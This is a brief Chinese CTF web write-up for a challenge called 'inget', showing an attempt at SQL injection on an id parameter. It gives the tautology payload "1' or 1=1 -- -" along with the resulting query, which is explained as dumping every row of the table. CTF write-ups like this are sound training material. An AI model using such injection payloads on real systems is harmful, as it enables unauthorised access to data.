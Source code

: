 # inget

![image-20230525134023179](CTF(WEB)image/image-20230525134023179.png) 

## 尝试进行 SQL注入

![image-20230525134128715](CTF(WEB)image/image-20230525134128715.png) 

尝试id=1没有回显

### 尝试使用万能密码登录

```mysql
## ?id=1' or 1=1 -- -
##构成的SQl语句
select * from table where id='1' or 1=1 -- - // or 1=1构造了一个永恒为真的语句,-- -是对后面的语句进行注释
## 此时将会输出表中的所有数据
```

![image-20230525134807666](CTF(WEB)image/image-20230525134807666.png) 
